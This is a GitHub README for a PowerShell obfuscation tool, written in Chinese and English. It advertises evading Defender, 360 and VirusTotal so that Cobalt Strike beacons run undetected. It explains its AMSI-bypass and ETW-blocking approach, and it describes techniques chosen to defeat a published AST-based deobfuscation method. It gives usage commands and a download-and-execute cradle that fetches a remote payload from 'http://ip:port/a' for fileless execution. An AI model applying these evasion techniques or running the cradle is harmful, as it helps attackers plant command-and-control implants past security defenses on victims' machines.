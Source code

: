 # powershell-obfuscation

简单有效的powershell免杀混淆的小工具，VT全绿，可过Defender、360等，可执行上线cobaltstrike等操作。

AMSI混淆绕过+ETW混淆block+powershell命令混淆绕过。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

上述测试环境均为实体机。

A simple and effective powershell obfuscaiton tool bypass Anti-Virus, VT.

AMSI-bypass obfuscation + ETW-block obfuscation + powershell command obfuscation.

**Please do not use it for any illegal purpose, and the consequences arising therefrom shall be borne by yourself.**

## 思路

这段时间看了看powershell反混淆相关的内容与论文，目前反混淆效果最好的应该是2022年qax的《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》，该论文延续了19年CCS浙大的思路并进行了改进，使用了变量追踪并在AST层面上进行了invoke解混淆，比defender和VT的效果好不少。

**不过论文中也提到了当前powershell反混淆研究的难点，一个是自定义function加密解不开，一个是很难去追踪循环中的变量。**

由于部分的反混淆工具会在AST层面上进行反混淆的工作，因此powershell自带的大部分加密解密/编码解码的函数是形同虚设的，如[System.Convert]::FromBase64String等。应该尽可能去使用自定义的加密解密的function。

这里针对这两个学术界研究的难点，写了一个简单的powershell混淆器，事实证明效果确实也不错。具体思路如下：

1、自定义加密解密function，function中进行字符串的逆序（逆序没有用powershell自带的函数，防止AST层面上解混淆）与字符的+-运算（不使用异或运算的原因是defender对-bxor监控很严格）。

2、对上述function进行几次循环的运算。

3、为了能让字符有效地输出，最后用base64编码了一下（即便在AST层面上解开也无所谓，因为解开了的内容仍是混淆之后的）。

同时对AMSI绕过与ETW block与powershell命令进行了混淆。

这里仅仅实现了一个简单的混淆器demo，可以自由发挥，后续要是有时间的话我会继续完善。

实验了一下，用qax的反混淆工具与Unit42团队的反混淆工具都是解不开的。

The tool with the best anti-obfuscation effect at present should be《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》. This paper uses variable tracking and invoke de-obfuscation at the AST level, the effect is much better than that of defender and VT.

**However, this paper also mentioned the difficulties of the current powershell anti-obfuscation research. One is that the custom function encryption cannot be de-obfuscated, and the other is that it is difficult to track the variables in the loop.**

Since some de-obfuscation tools de-obfuscates at the AST level, most of the encryption/encoding functions that come with powershell are useless, such as [System.Convert]::FromBase64String and so on. You should use custom encryption and decryption functions as much as possible.

Aiming at the difficulties of these the academic research, I wrote a simple powershell obfuscator, and it turns out that the result is really good. The specific ideas are as follows:

1. Customize the encryption and decryption function. In the function, reverse the string (reversing string does not use the function that comes with powershell to prevent de-confusing at the AST level) and the +- operation of characters (the reason why the XOR operation is not used here is that the defender monitors -bxor strictly).

2. Perform several loop operations on the encryption and decryption function.

3. In order to allow the characters to be effectively output, it is finally encoded with base64 (even if it is decoded at the AST level, it does not matter, because the decoded content is still obfuscated).

This tool implements AMSI-bypass obfuscation, ETW-block obfuscation and powershell command obfuscation.

## 使用的方法

```./powershell-obfuscation.ps1 -c "whoami"``` 来混淆命令 obfuscates command

```./powershell-obfuscation.ps1 -f "filename"``` 来混淆指定的文件 obfuscates specific file

结果会输出在当前目录下的bypass.ps1中

The result can be found in bypass.ps1.

以cs的beacon.ps1为例

Take beacon.ps1 as an example

同样可以来混淆 IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))

上线cs可以混淆beacon.ps1然后落地来执行，也可以直接混淆cs的iex下载一句话来不落地执行。

混淆前VT如下：

![1671255963304](https://user-images.githubusercontent.com/48757788/208227398-4b3abb77-bef6-4891-9798-31255c9557f8.png)

混淆后VT如下：

![1671255985878](https://user-images.githubusercontent.com/48757788/208227402-42d2cfce-9b19-4c69-b4b9-da2a4fc609f7.png)

上线：

![image](https://github.com/H4de5-7/powershell-obfuscation/blob/main/CS.png)
